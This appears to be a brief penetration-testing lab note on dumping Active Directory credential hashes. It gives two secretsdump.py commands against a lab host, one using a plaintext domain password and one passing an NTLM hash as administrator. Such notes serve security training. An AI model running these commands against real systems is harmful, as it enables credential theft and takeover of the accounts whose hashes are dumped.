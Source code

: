 # Dumping hashes

## Dumping with secretsdump and password

```bash
secretsdump.py MARVEL.local/fcastle:'Password1'@192.168.70.138
```

## Dumping with secretsdump and hashes
```bash
secretsdump.py administrator:@192.168.70.138 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```